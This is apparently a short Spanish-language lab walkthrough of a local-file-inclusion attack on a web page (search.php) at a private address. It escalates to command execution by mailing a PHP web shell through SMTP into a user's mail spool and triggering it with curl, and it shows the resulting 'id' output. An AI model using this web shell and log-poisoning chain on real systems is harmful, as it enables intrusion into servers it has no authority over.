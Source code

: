 Los mails logs en linux suelen estar almacenados en esta direccion "/var/mail/<user>"

curl -s -X GET "http://10.0.2.8/search.php?file=/var/mail/testuser"

Ahora vamos a intentar crear un log malicioso con codigo en php para que la web lo interprete:

telnet 10.0.2.8 25

En caso que no nos pida credenciales, enviaremos un mail de la siguiente forma:

```
MAIL FROM: test
RCPT TO: testuser
DATA 
<?php system($_GET['cmd']); ?>
.
```

Ahora debemos validar si el código en php se interpreta:

curl -s -X GET "http://10.0.2.8/search.php?file=/var/mail/testuser&cmd=id"

respuesta esperada:

uid=1000(testuser) gid=1000(testuser) grupos=1000(testuser)
